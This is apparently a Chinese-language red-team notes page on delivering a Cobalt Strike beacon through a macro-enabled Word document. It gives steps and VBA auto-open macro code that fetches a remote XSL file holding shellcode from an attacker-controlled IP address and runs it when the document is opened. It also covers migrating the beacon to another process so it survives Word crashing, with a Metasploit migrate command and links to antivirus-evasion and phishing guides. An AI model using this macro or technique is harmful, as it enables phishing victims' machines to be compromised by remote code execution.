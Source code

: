 ![image-20240705100413007](http://cdn.ayusummer233.top/DailyNotes/202407051004339.png)

`foo.xsl`中包含了处理后的 shellcode

![image-20240704174925409](http://cdn.ayusummer233.top/DailyNotes/202407041749735.png)

---

1. 新建启用宏的 word 文档 `VBA_XMLDOM.docm`

2. 在 Word 中编辑宏脚本(ALT+F11)

3. 在“工程 – Project”窗口中，双击“Microsoft Word 对象”，再双击“ThisDocument”。

4. 此时在右侧代码窗口顶部，会看到两个列表框，单击左侧下拉列表，将其从“（通用）”更改为“Document”，单击右侧下拉列表，从列表中选择“Close”或“Open”以插入 Document_Close()或 Document_Open()过程，或者可直接在代码窗口输入过程名。

```vb
Sub Auto_Open()
    Set XML = CreateObject("Microsoft.XMLDOM")
    XML.async = False
    Set xsl = XML
    xsl.Load "http://100.1.1.131:8000/download/foo.xsl"
    XML.transformNode xsl
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
```

保存然后重新打开这个 docm 文档

![image-20240705103356923](http://cdn.ayusummer233.top/DailyNotes/202407051033298.png)

![image-20240705103555605](http://cdn.ayusummer233.top/DailyNotes/202407051035870.png)

---

可以看到的是这样虽然可以上线, 但是 word 进程会崩, 如果结束 word 进程那么相应的 cs 也会掉线, 因此需要将上线目标迁移到其他进程上

> [加载远程XSL文件的宏免杀方法 · Uknow - Stay hungry Stay foolish (uknowsec.cn)](https://uknowsec.cn/posts/notes/加载远程XSL文件的宏免杀方法.html)

- Cobalt Strike：通过插件实现上线后自动迁移进程，[Beacon Handler Suite](https://github.com/threatexpress/aggressor-scripts/tree/d6bdbd587379d7da2a337d19cccdee1a8628d1d8/beacon_handler)
- Metasploit: 在设置监听的时间可以设置：`set autorunscript migrate -N explorer.exe 或 set autorunscript -f`

> TODO: 看下这个进程迁移是怎么实现的

---

## 相关链接

- [钓鱼姿势汇总 - 简书 (jianshu.com)](https://www.jianshu.com/p/dcd250593698)
- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

---